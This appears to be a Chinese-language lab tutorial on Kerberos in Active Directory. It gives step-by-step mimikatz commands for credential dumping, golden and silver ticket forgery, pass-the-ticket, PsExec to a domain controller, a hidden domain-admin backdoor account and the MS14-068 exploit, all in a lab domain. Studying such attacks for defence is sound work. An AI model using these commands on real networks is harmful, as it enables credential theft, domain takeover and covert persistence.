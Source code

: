 ## 1、Kerberos概述

一种计算机网络认证协议，采用C/S架构，应用对称密钥体制的系统

* KDC（Key Distribute Center）：密钥分发中心，负责存储用户信息，管理发放票据
* Principal：Kerberos中保存的一个账号，格式为：`primary/instance@realm`，例如`root/admin@EXAMPLE.COM`表示用户名/主机名@域名
* keytab：密钥文件
* 票据：KDC颁发的通行证，有黄金票据和白银票据

## 2、认证流程

```
1. 用户先进行身份认证，输入kinit命令和密码，AS认证服务器根据输入的账号和密码到数据库中查询验证，如果匹配，颁发票据TGT（Ticket Granting Ticket）
2. 用户拿到TGT后访问TGS票据授权服务器，然后TGS去数据库中查询服务是否合法，验证通过后，颁发ST（Service Ticket）票证给用户
3. 用户拿到ST票证后才能访问服务
```



![image-20240607164239356](images/image-20240607164239356.png)

## 3、Kerberos协议优缺点

优点：双向认证、高性能

缺点：对称加密采用相同密钥安全性不易保障、密钥管理复杂度随用户数快速增加`n*(n-1)/2个密钥`

## 4、黄金票据和白银票据

1、黄金票据（Golden Ticket）：伪造TGT，域管理员权限，可以获取任意Kerberos的访问权限，同KDC交互，但不同AS交互

```
# 所需条件
1、域名称
2、域的SID值
3、域的KRBTGT账号的HASH（krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户）
4、伪造任意用户名
（获取域的SID和KRBTGT账号的NTLM HASH的前提是需要已经拿到了域的权限）
```

基本信息获取（SID、所处域）

```
whoami /user（获取SID值，去掉最后的-500，其表示为administrator）
net config workstation 查看所处域
```

![image-20240607173051102](images/image-20240607173051102.png)

获取krbtgt用户hash

```
运行mimikatz.exe
privilegeg::debug       #开启特权模式
lsadump::lsa /patch		#获取krbtgt用户hash,域的sid
lsadump::lsa /patch /user:krbtgt
```

![image-20240607173139141](images/image-20240607173139141.png)

![image-20240607173208490](images/image-20240607173208490.png)

制作黄金票据（使用mimkatz）

```
Kerberos::purge
klist purge		这两条命令可以清除机器中的票据，以防干扰

kerberos::golden /user:administrator /domain:cyber.com /sid:S-1-5-21-1923088019-4105411894-1236499359 /krbtgt:d40f0e3b1347e55dbfd6dc58e80a3b6e /ticket:ticket.kirbi

kerberos::golden /user:XXX任意用户名 /domain:域名 /sid:域的sid值 /ticket:XXX.kirbi(生成的票据名称)
```

票据传递

```
kerberos::ptt ticket.kirbi
dir \\dc.cyber.com\c$ 	#这里好像一定要完整的主机名才行
```

![image-20240607173628497](images/image-20240607173628497.png)

```
此时一个通往域内任意服务的后门制作完成
直接使用Windows官方PsExec工具提权
PsExec.exe \\dc.cyber.com -s cmd.exe
也可以在域内创建隐藏账户
net user qwer$ Aa123456 /add /domain
net group "domain admins" qwer$ /domain
```

![image-20240607174042493](images/image-20240607174042493.png)

2、白银票据（Sliver Ticket）：伪造ST，域普通用户权限，只能访问特定服务，不同KDC交互，直接访问Server

```
# 所需条件
1.域名
2.域sid
3.目标服务器名
4.可利用的服务
5.服务账号的NTML HASH 
6.需要伪造的用户名
```

基本信息获取（SID、所处域、服务器名、NTLM HASH）

```
whoami /user 
net config workstation

获取服务账号hash
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" > 'xxx.txt'
```

![image-20240607174609777](images/image-20240607174609777.png)

制作白银票据（使用mimikatz）

```
klist purge  清除票据

kerberos::golden /domain:cyber.com /sid:S-1-5-21-1923088019-4105411894-1236499359 /target:dc.cyber.com /service:cifs /rc4:45bdd23a3b9fc1c44a9fbb4081a70b30 /user:aaaa /ptt

kerberos::golden /domain:域名 /sid:域sid /target:目标服务器 /service:目标服务 /rc4:目标服务器的hash /user:xxx用户名 /ptt
```

伪造共享文件夹服务（cifs）权限

![image-20240607174704974](images/image-20240607174704974.png)

攻击成功

![image-20240607174729062](images/image-20240607174729062.png)

可以伪造的服务

![image-20240607174851897](images/image-20240607174851897.png)

## 5、MS14-068漏洞

可将普通用户提权到域管理员权限

```
# 所需条件
获取域用户名，密码，sid
系统不存在补丁KB3011780
```

##### 查看补丁状况

```
systeminfo|find "KB3011780"
```

##### 获取用户名、密码、SID

```
用户名：hack1
密码：Aa123456  #我所创建的用户都是这个密码，实际可用通过mimikatz获取
SID：S-1-5-21-1923088019-4105411894-1236499359-1115
```

![image-20240607175328488](images/image-20240607175328488.png)

#### 攻击

```
`ms14-068.exe -u user@domain -p user_password -s sid -d domain_ip`

ms14-068.exe -u hack1@cyber.com -p Aa123456 -s S-1-5-21-1923088019-4105411894-1236499359-1115 -d 192.168.10.2
```

攻击前拒绝访问，使用MS14-068.exe生成了.ccache文件

![image-20240607180417942](images/image-20240607180417942.png)

使用mimikatz传递票据

```
kerberos::ptc xxx.ccache
```

![image-20240607180525171](images/image-20240607180525171.png)